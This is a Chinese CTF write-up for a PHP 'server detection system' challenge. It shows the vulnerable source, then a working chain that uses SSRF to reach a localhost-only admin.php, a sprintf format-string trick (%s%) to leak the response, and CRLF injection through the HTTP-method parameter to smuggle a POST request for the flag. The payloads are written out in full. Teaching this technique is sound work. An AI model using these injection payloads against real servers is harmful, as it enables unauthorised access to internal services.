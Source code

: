 # 服务端检测系统
## 考察知识点：
### 1.ssrf
### 2.crlf注入

### 1.右键点击，查看网页源码发现服务端源码

```
<!-- /admin.php -->

<?php
    if(isset($_POST['method']) && isset($_POST['url']) ){
        $method=$_POST['method'];
        $url=$_POST['url'];

        if(preg_match('/^http:\/\//i',$url)){
            $opts = array(
                'http'=>array(
                    'method'=>$method,
                    'timeout'=>3
                )
            );

//            创建并返回一个资源流上下文，该资源流中包含了 options 中提前设定的所有参数的值。
            $context = stream_context_create($opts);

//            关键代码，无任何限制读取url页面内容，大概率存在ssrf漏洞
            $body = @file_get_contents($url."/anything", false, $context);

            if(isset($http_response_header)){
                preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
                if(isset($matches[1])){
                    echo "服务端支持的请求方法有:".$matches[1];
                }else{
                    echo "failed<br>";
                    echo sprintf("body length of $method%d", $body);
                }

            }else{
                echo "error";
            }
        }else{
            echo 'not allowed';
        }

    }
```

### 2.观察源码存在admin.php页面，访问该页面

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/7AFB4299FA2D4D6AB5778E2615B8EC30服务端检测系统1.png)

但是提示仅仅只有127.0.0.1可以访问，尝试更改xff头绕过，可是行不通。

### 3.根据源码此时已经可以确定这个题，需要用到csrf漏洞

获取其他页面的内容，很符合ssrf的利用方式

参考链接：https://xz.aliyun.com/t/2115

### 3.尝试利用此处的csrf访问admin.php文件

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/642D723FBD634096ABDD56D1C3E75C19服务端检测系统2.png)

发现还是不行，阅读源码

```
if(isset($http_response_header)){
    preg_match("/Allow:(.*?);/i",implode(';',$http_response_header).";",$matches);
    if(isset($matches[1])){
        echo "服务端支持的请求方法有:".$matches[1];
    }else{
        echo "failed<br>";
        echo sprintf("body length of $method%d", $body);
    }

}else{
    echo "error";
}
```

`sprintf("body length of $method%d", $body);`这句代码有问题，因为格式化字符串`"body length of $method%d"`

$body为file_get_contents获取网页返回的的字符串，%d是表示int型数据，所以此处返回0，现在的思路就为：

#### 4.让%d变成%s，使file_get_contents获取的admin.php内容能够正常显示

此处的$method参数可控，所以只要把%d给转义掉，再注入%s，就能让其显示$body内容，列如$method传入%s%，那么最后拼接成的便是`body length of %s%%d`,而最后显示的效果就是`echo sprintf("body length of %s", $body);`

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/469515DD0DC845918E116260F3AAD2F8服务端检测系统5.png)

在本地测试，file_get_contents成功获取到admin.php文件内容，并显示在输出的字符串$str中

### 5.虽然此处的method是作为请求方式来去发起http请求的，那么发出的请求包是这样的：
```
%s% /admin.php?/anything HTTP/1.0
Host: 127.0.0.1
```

%s自然是不能作为一个正常的请求头。但是某些中间间可能也会当做GET请求来响应，比如当前环境中会正常返回admin.php页面内容，所以此时将$method改为%s%构造的http报文，也照样可以正常访问

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/8A8E1CF120EF4E79A8361A3E2551C95A服务端检测系统3.png)

### 6.此时就获取到了admin.php文件的内容

观察这里的代码：

发现这⾥⽤的是file_get_contexts()函数来发起HTTP请求，⼀些配置选项包括这⾥的请求⽅式是
作为⼀个数组经过stream_context_create()处理后传⼊的。其实这⾥就存在CRLF注⼊漏洞，即我们可
以完全⾃⼰构造⼀个完整的POST包发出去

crlf注入：https://wooyun.js.org/drops/CRLF%20Injection%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90.html

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/EFC4900BE71A4F5481D7C6873021CFA6服务端检测系统4.png)

### 7.$method参数，是我们可控的构造：
```
url=http://127.0.0.1/&method=POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes%26b=%s%
```

content-Length：50自己估算长度

%26=&,用来分隔后面的参数，%S%,因为要返回的数据还是为字符串，所以%s%

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/F9D5D03C2C8B41F7A8673EBF8305C733服务端检测系统6.png)

此时发送的数据包为：

```
POST /admin.php HTTP/1.1
Host: x
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

iwantflag=yes&b=%s% 
```

服务器响应了，第二个我们构造的数据包，满足admin.php文件的要求，返回flag

